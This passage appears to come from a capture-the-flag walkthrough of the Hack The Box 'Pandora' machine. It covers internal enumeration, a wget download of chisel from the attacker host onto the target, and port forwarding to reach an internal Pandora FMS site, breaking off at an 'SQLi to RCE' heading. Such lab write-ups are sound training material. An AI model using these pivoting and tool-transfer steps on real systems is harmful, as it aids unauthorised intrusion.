 ![](https://i.imgur.com/87z2fE9.png)


On `/etc/apache2/sites-enabled`, I see **pandora.conf** file, which implies there's another website running internally:

![](https://i.imgur.com/aVWMlZ5.png)


It seems like **pandora.panda.htb** is running locally on port 80:

![](https://i.imgur.com/wY0MeCA.png)


I can confirm this through `netstat -ntlp` command, seeing port 80 is open internally:

![](https://i.imgur.com/I6nmUzI.png)


On `/var/www/pandora`, I can access files for the internal website:

![](https://i.imgur.com/6pQ9GXL.png)




### Port Forwarding

To access the website through web browser, I will port forward internal port 80 to local side using chisel.

I will first download chisel to pandora server using `wget http://10.10.14.14:8000/chisel_linux`.

Now with chisel server running locally on Kali machine, I will start the client session on pandora server:

![](https://i.imgur.com/UUgXkZN.png)


I get a incoming chisel server running on kali machine:

![](https://i.imgur.com/kYQd7YG.png)


Now I can access the internal website on my Kali web browser:


![](https://i.imgur.com/BMXIemI.png)





### SQLi to RCE

At the bottom of the website, version for Pandora FMS is revealed:

![](https://i.imgur.com/LYWDHyY.png)

